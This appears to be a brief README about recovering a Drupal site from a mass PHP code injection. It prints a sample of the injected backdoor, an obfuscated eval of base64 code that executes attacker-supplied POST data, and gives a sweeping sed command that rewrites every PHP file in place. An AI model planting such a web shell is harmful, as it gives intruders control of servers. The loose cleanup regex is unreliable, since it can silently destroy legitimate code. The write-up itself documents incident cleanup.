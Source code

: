 # Remove Drupal Code injection

Had a client whose site got hit with a big code injection attack. There were many hundreds of compromised files and no clean copy of the code anywhere.

The injected code looked something like this:

```<?php /*457563643*/ error_reporting(0); @ini_set('error_log',NULL); @ini_set('log_errors',0); @ini_set('display_errors','Off'); @eval(base64_decode('aWYobWQ1KCRfUE9TVFsicGYiXSkgPT09ICI5M2FkMDAzZDdmYzU3YWFlOTM4YmE0ODNhNjVkZGY2ZCIpIHsgZXZhbChiYXNlNjRfZGVjb2RlKCRfUE9TVFsiY29va2llc19w')); /*457563643*/ ?>```


With too many files to clean up manually, we removed the offending code with

```find . -name "*.php" | xargs sed -i 's/<*.*[[:digit:]]+*.*eval*.*[[:digit:]]+*.*>//g' *.php```

,replaced the core files with the latest Drupal files and put the cleaned up code into version control.

Your mileage may vary. 
